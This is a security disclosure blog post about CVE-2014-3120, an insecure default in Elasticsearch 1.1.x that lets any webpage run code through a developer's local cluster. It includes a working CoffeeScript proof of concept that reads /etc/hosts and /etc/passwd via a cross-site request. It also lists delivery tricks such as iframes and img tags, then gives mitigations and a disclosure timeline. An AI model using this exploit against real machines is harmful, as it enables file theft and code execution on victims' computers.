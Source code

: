 ```yaml
---
layout: post
title: Insecure default in Elasticsearch enables remote code execution

---
```


Elasticsearch has a flaw in its default configuration which makes it possible for any webpage to execute arbitrary code on visitors with Elasticsearch installed. If you're running Elasticsearch in development please read [the instructions](#how_to_secure_against_this_issue) on how to secure your machine. Elasticsearch version 1.2 (which is unreleased as of writing) is not vulnerable to remote code execution, but still has some security concerns.

## The problem(s)
There are a couple of problems which enable the proof of concept I'm going to present:

* Elasticsearch has no access roles or authentication mechanism. This means that you have full control over a cluster the moment you connect to it.
* The API for Elasticsearch is accessible over <a href="http://www.elasticsearch.org/guide/en/elasticsearch/reference/current/modules-http.html" target="_blank">HTTP</a> and provides no CSRF protection whatsoever.
* It contains a <a href="http://www.elasticsearch.org/guide/en/elasticsearch/reference/current/modules-scripting.html" target="_blank">feature</a> which makes it possible to evaluate expressions as part of a query. An example usage of this feature is to specify a custom scoring function while searching through documents. It uses the [MVEL](http://mvel.codehaus.org/) language by default.
* Up to version 1.2 <a href="http://www.elasticsearch.org/guide/en/elasticsearch/reference/current/modules-scripting.html#_enabling_dynamic_scripting" target="_blank">dynamic scripting</a> (which makes it possible to send scripts to the cluster on the fly) was enabled by default. As mentioned in the documentation, this feature gives someone the same priviliges as the user that runs Elasticsearch. MVEL has no sandboxing at all.

There are no issues up to this point as long as you properly follow the documentation and make sure your Elasticsearch cluster is not available from the outside world. There is one target that isn't mentioned in the documentation though: The Developer! When you're developing an application that uses Elasticsearch, you probably have it running on your machine. The default port is `9200` and because there is no CSRF protection any webpage can just connect to the cluster using `localhost:9200` as the host.

## PoC
The following script will read `/etc/hosts` and `/etc/passwd` from a user visiting a webpage and display the contents in the browser.

{% highlight coffeescript %}
read_file = (filename) ->
  """
  import java.io.File;
  import java.util.Scanner;
  new Scanner(new File("#{filename}")).useDelimiter("\\\\Z").next();
  """

# This PoC assumes that there is at least one document stored in Elasticsearch, there are ways around that though
$ ->
  payload = {
    "size": 1,
    "query": {
      "filtered": {
        "query": {
          "match_all": {
          }
        }
      }
    },
    "script_fields": {}
  }

  for filename in ["/etc/hosts", "/etc/passwd"]
    payload["script_fields"][filename] = {"script": read_file(filename)}

  $.getJSON "http://localhost:9200/_search?source=#{encodeURIComponent(JSON.stringify(payload))}&callback=?", (data) ->
    console.log(data)
    for hit in data["hits"]["hits"]
      for filename, contents of hit["fields"]
        document.write("<h2>#{filename}</h2>")
        for content in contents
          document.write("<pre>" + content + "</pre>")
        document.write("<hr>")
{% endhighlight %}

You can verify whether you're vulnerable by trying out the above PoC <a href="/blog/elasticsearch-rce/poc.html" target="_blank">here</a>.

There are many ways to exploit this, you could link the victim to the page or embed it as an Iframe. You can even exploit this by crafting a URL and using it as the `src` of an `<img>`, as the only thing that needs to happen is a single GET request. No user interaction required!

Because this is so easily exploitable you can mass-pwn developers with relatively little work.

## How to secure against this vulnerability

Add the following line to your `elasticsearch.yml` to disable dynamic scripting and prevent remote code execution:

{% highlight yaml %}
script.disable_dynamic: true
{% endhighlight %}

You should also make sure that your local Elasticsearch instance is only binding on `localhost`, as someone could exploit you over LAN if you don't. The Homebrew Elasticsearch formula does this automatically.

If you want to be as secure as possible, you should run Elasticsearch inside a virtual machine, to make sure it has no access to the hosting machine at all.

## Additional targets

Disabling scripting will prevent code execution, but that still leaves us with the issue of being able to query and administer the instance without limit. A webpage can easily dump the whole database running on your machine, sensitive data included. This is impossible to fix by the Elasticsearch developers without adding authentication or CSRF protection.

If an attacker can figure out the internal address of your production Elasticsearch instance, you're also open to leaking your production data. If your development machine is connected to a VPN which provides access to the Elasticsearch cluster, an attacker can easily query or [shut down](http://www.elasticsearch.org/guide/en/elasticsearch/reference/current/cluster-nodes-shutdown.html) your cluster simply by making you visit a webpage.

### Notes

* I have reserved [CVE-2014-3120](http://www.cve.mitre.org/cgi-bin/cvename.cgi?name=2014-3120) for this issue.
* This exploit was tested against Elasticsearch version 1.1.1 on MacOSX installed through Homebrew. No configuration changes were made.
* I notified Elasticsearch through their [security report instructions](http://www.elasticsearch.org/community/security/) on the 26th of April 2014. They replied they were aware of it, but didn't intend to do a security release and instead [disable](https://github.com/elasticsearch/elasticsearch/issues/5853) dynamic scripting by default in version 1.2.
* This security issue has been indepently discovered and [blogged about](https://www.found.no/foundation/elasticsearch-security/#staying-safe-while-developing-with-elasticsearch) on December 9th 2013.
